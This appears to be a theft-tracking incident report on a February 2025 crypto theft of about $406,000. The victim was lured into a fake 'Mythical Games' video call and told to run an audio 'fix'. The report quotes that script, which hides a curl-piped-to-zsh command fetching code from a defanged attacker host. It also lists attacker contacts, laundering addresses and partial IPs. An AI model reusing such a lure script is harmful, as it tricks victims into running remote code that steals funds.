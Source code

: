 # A6 via Fake Mythical Games

Date:: 2025-02-28

Time:: 12:25 UTC – 01:58 UTC, 23:09 UTC

Amount Stolen:: $406,343

Tags:: 🔑

---


## Details

Had a video call with the exploiters

Was an issue with the sound

Victim ran the suggested fix script provided by the exploiters.

On call were 3 males. 2 didnt speak, one did. Seemed like live interaction (?)

- “John Linden” - @mythicaljohn - 7440942015

- https://calendly.com/john-mythicalgames/30min?month=2025-03

- meet[.]mythicalgames[.]foundation/zoom/join?mn=65185420&pwd=r47BVC

```
system_profiler SPAudioData
softwareupdate --evaluate-products --products audio --agree-to-license
curl -A audio -s https://api.zoom-sdk[.]us/update/drivers/65185420 | zsh
system_profiler SPSoundCardData
softwareupdate --evaluate-products --products soundcard
system_profiler SPSpeechData
softwareupdate --evaluate-products --products speech --agree-to-license
```

- Attributed in [MSMT: The DPRK’s Violation and Evasion of UN Sanctions through Cyber and Information Technology Worker Activities](./pdfs/2025-10-22_MSMT-Report.pdf)



## Onchain

- TK3E1NWkehLoBKUWbhjUudxxjN4abYdu7T - Direct Theft

- EQAq887cEkvOMBdafawfjl8JqKIsk3DQopMT8q79D7r - Direct Theft

- 0x37ef7efda71203f17f26730611bd8eef11f5f8af - Primary Theft

- 0xd5944357a065245064a8b8dfc58e789a90dce0f6 - Consolidation

- TGoZ4yeuG13ysYYZEX334PvnqyWDnDJ2JT - Source of Gas Funds (2025-02-28)

- TAJFh3AqQKm6bvUYejJrH3k8htwTbunn5g - Source of Gas Funds (2025-02-28)

- 0x73565a7488cb4853c17923d88da3ccb81fd9aa8e - eXch Depo ($192k, 2025-03-14)

- 0x0c52194fd9148de91e96a8e123ab90f1482c6449 - eXch Depo ($218k, 2025-03-14)

- bc1q9knpsljy40j5jmphcyl7nzvhjvch5gp6kzhwnn - eXch Withdrawal ($191k)

- bc1qv4qm5jy2qy30ggjlygkd2665t90dcwuyga9hxe - eXch Withdrawal ($218k)

- bc1qfe4h6ghdg0fj37ftmsw437mfc4e74v5pvhfx8u - Laundry (Apr 10 2025)

- Used Defiway, ChangeNOW, FixedFloat, Symbiosis, OKX Dex, Bridgers from TRON and TON -> ETH



## Indicators

- 2025-02-28 - 85.203.44.XX

- 2025-03-03 - 103.125.146.XX

- 2025-03-03 - 103.163.220.XX

- 2025-03-03 - 83.234.227.XX (Leaked TTK)

- 2025-03-03 - 212.30.36.XX
